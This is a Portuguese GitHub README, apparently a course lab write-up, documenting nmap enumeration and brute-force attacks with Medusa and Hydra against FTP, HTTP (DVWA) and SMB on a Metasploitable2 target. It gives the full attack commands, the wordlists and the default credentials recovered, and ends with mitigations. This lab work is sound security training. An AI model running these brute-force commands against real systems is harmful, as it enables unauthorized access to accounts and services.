








# 🛡️ Desafio: Simulação de Ataque de Brute Force com Medusa e Hydra — FTP, HTTP e SMB


## 📌 Sobre o desafio

Este repositório documenta a resolução do desafio **“Simulação de um ataque de Brute Force com Medusa e Hydra nos serviços de FTP, HTTP e SMB”**, proposto no curso **Santander — Cibersegurança 2025**.

O objetivo foi realizar a enumeração de portas e serviços em um alvo vulnerável, criar wordlists de usuários e senhas, executar ataques de força bruta com **Medusa** e **Hydra** e validar as credenciais encontradas nos serviços:

- FTP
- HTTP
- SMB

> ⚠️ **Aviso legal:** Todo o procedimento foi realizado em ambiente controlado e isolado, utilizando a máquina **Metasploitable2**, com fins exclusivamente educacionais. Não utilize estas técnicas em ambientes sem autorização formal.

---

## 🧰 Ferramentas utilizadas

- [Nmap](https://nmap.org/)
- [Medusa](http://www.foofus.net/)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- Cliente FTP
- `smbclient`
- Metasploitable2

---

## 🖥️ Ambiente do laboratório

| Item | Descrição |
|---|---|
| Atacante | Debian 13 |
| Alvo | Metasploitable2 |
| IP do alvo | `172.22.0.2` |
| Rede | Laboratório isolado |
| Data da execução | 25/09/2026 |


---

## 🗂️ Estrutura do repositório

```text
.
├── README.md
├── user.txt
├── pass.txt
└── images/
    ├── 01-nmap.png
    ├── 02-wordlists.png
    ├── 03-medusa-ftp.png
    ├── 04-ftp-login.png
    ├── 05-hydra-http.png
    ├── 06-dvwa-login.png
    ├── 07-medusa-smb.png
    └── 08-smbclient.png
```

---

## 1️⃣ Enumeração de portas e serviços

Foi realizado um scan completo com detecção de versões e scripts padrão:

```bash
nmap -sV -sC -p- 172.22.0.2
```

### Principais portas abertas identificadas

| Porta | Serviço | Versão |
|---|---|---|
| 25/tcp | SMTP | Postfix smtpd |
| 80/tcp | HTTP | Apache httpd 2.2.8 |
| 139/tcp | NetBIOS-SSN | Samba smbd 3.X - 4.X |
| 445/tcp | NetBIOS-SSN | Samba smbd 3.0.20-Debian |
| 2121/tcp | FTP | ProFTPD 1.3.1 |
| 3306/tcp | MySQL | MySQL 5.0.51a-3ubuntu5 |
| 3632/tcp | distccd | distccd v1 |
| 5432/tcp | PostgreSQL | PostgreSQL DB 8.3.0 - 8.3.7 |

### Evidência



---

## 2️⃣ Criação das wordlists

Foram criadas wordlists simples de usuários e senhas para o ataque:

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' | tee user.txt

echo -e '123456\nqwerty\nmsfadmin\nadmin\nroot\npassword' | tee pass.txt
```

### Evidência



---

## 3️⃣ Brute force no FTP com Medusa

O serviço FTP estava rodando na porta **2121**.

```bash
medusa -h 172.22.0.2 -U user.txt -P pass.txt -M ftp -n 2121
```

### Resultado encontrado

```text
ACCOUNT FOUND: [ftp] Host: 172.22.0.2 User: msfadmin Password: msfadmin [SUCCESS]
```

**Credencial encontrada:** `msfadmin:msfadmin`

### Evidência



---

## 4️⃣ Validação do acesso FTP

Após a descoberta da credencial, o acesso foi validado manualmente:

```bash
ftp msfadmin@172.22.0.2 -P 2121
```

Durante a sessão FTP, foi possível listar o diretório inicial e o diretório `vulnerable`:

```text
ftp> ls
drwxr-xr-x   6 msfadmin msfadmin     4096 Apr 28  2010 vulnerable

ftp> ls vulnerable
drwxr-xr-x   3 msfadmin msfadmin     4096 Apr 28  2010 mysql-ssl
drwxr-xr-x   5 msfadmin msfadmin     4096 Apr 28  2010 samba
drwxr-xr-x   2 msfadmin msfadmin     4096 Apr 19  2010 tikiwiki
drwxr-xr-x   3 msfadmin msfadmin     4096 Apr 16  2010 twiki20030201
```

### Evidência



---

## 5️⃣ Brute force no HTTP com Hydra

O alvo possuía o **DVWA** disponível via HTTP.

```bash
hydra -L user.txt -P pass.txt 172.22.0.2 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

### Resultado encontrado

```text
[80][http-post-form] host: 172.22.0.2   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

**Credencial encontrada:** `admin:password`

### Evidência



---

## 6️⃣ Validação do acesso HTTP

Foi realizado o login na aplicação DVWA utilizando a credencial descoberta:

- URL: `http://172.22.0.2/dvwa/login.php`
- Usuário: `admin`
- Senha: `password`

### Evidência



---

## 7️⃣ Brute force no SMB com Medusa

O serviço SMB foi atacado com o módulo `smbnt` do Medusa:

```bash
medusa -h 172.22.0.2 -U user.txt -P pass.txt -M smbnt
```

### Resultado encontrado

```text
ACCOUNT FOUND: [smbnt] Host: 172.22.0.2 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

**Credencial encontrada:** `msfadmin:msfadmin`

### Evidência



---

## 8️⃣ Validação do acesso SMB

O acesso foi validado listando os compartilhamentos SMB:

```bash
smbclient -L //172.22.0.2 -U msfadmin
```

### Compartilhamentos listados

```text
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
IPC$            IPC       IPC Service (victim server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (victim server (Samba 3.0.20-Debian))
msfadmin        Disk      Home Directories
```

### Evidência



---

## 📊 Resultados consolidados

| Serviço | Porta | Ferramenta | Credencial encontrada | Status |
|---|---|---|---|---|
| FTP | 2121 | Medusa | `msfadmin:msfadmin` | ✅ Sucesso |
| HTTP | 80 | Hydra | `admin:password` | ✅ Sucesso |
| SMB | 445 | Medusa | `msfadmin:msfadmin` | ✅ Sucesso |

---

## 📚 Aprendizados

- A importância da enumeração detalhada antes de qualquer ataque.
- O risco de credenciais padrão e senhas fracas.
- Como ferramentas como Medusa e Hydra automatizam ataques de força bruta.
- A necessidade de validar manualmente as credenciais encontradas.
- O impacto de serviços legados e mal configurados expostos na rede.
- A relevância de monitoramento, bloqueio de tentativas e políticas de senha forte.

---

## 🛡️ Mitigações recomendadas

- Utilizar senhas fortes e únicas.
- Implementar autenticação multifator (MFA) sempre que possível.
- Aplicar bloqueio temporário após tentativas de login falhas.
- Utilizar ferramentas como `fail2ban` e rate limiting.
- Manter serviços atualizados e corrigidos.
- Restringir acesso por firewall e segmentação de rede.
- Desabilitar serviços desnecessários.
- Monitorar logs de autenticação e alertar sobre tentativas suspeitas.
- Não expor SMB, FTP ou interfaces administrativas diretamente à internet.

---

## 📖 Referências

- [Nmap — Documentação oficial](https://nmap.org/docs.html)
- [Medusa — Foofus Networks](http://www.foofus.net/)
- [Hydra — GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Metasploitable2](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [OWASP — Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)

---

## 👤 Autor

**Nilton de Oliveira Junior**

- GitHub: [@noliveirajunior-JackSparrow](https://github.com/noliveirajunior-JackSparrow)
- LinkedIn: [nilton-de-oliveira-ba29a8411](https://www.linkedin.com/in/nilton-de-oliveira-ba29a8411/)

---

## ⚠️ Disclaimer

Este repositório tem finalidade **exclusivamente educacional**. Todas as técnicas foram executadas em um laboratório controlado e autorizado. O uso indevido dessas informações em sistemas de terceiros é ilegal e antiético.
